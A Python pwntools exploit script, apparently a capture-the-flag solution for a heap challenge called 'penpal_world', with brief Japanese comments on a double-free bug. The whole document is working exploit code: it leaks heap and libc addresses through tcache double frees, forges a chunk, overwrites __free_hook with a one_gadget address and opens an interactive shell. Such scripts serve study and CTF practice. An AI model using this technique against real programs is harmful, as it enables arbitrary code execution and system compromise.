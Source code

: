 ```python
        PIE:      PIE enabled
    """
    """
        - Double Free可能
        - 固定malloc(0x48)
        - 同時に保持できるポインタは2つ
    """
    target = "localhost"
    port = 4010

    s = remote(target, port)
    # s = process("./penpal_world")

    elf = ELF("./penpal_world")
    libc = ELF("./libc-2.27.so")
    arena_libc = 0x3ebc40
    free_hook_libc = libc.symbols["__free_hook"]
    one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]

    create(s, 0)
    delete(s, 0)
    delete(s, 0)  # tcache count: 2
    heap_addr = u64(show(s, 0).ljust(8, b"\x00"))
    fake_chunk = heap_addr + 0x60
    print(hex(heap_addr))
    edit(s, 0, p64(0))
    create(s, 1)  # tcache count: 1

    create(s, 0)
    edit(s, 0, p64(0) + p64(0x91))
    create(s, 0)
    create(s, 0)
    # create(s, 0)

    delete(s, 0)  # tcache count: 2
    edit(s, 0, p64(fake_chunk))
    create(s, 0)  # tcache count: 1
    create(s, 0)  # tcache count: 0

    for _ in range(8):
        delete(s, 0)

    libc_addr = u64(show(s, 0).ljust(8, b"\x00")) - arena_libc - 0x60
    print(hex(libc_addr))

    delete(s, 1)  # tcache count: 1
    edit(s, 1, p64(libc_addr + free_hook_libc))
    create(s, 1)
    create(s, 1)
    edit(s, 1, p64(libc_addr + one_gadget[1]))

    delete(s, 0)

    s.interactive()

```
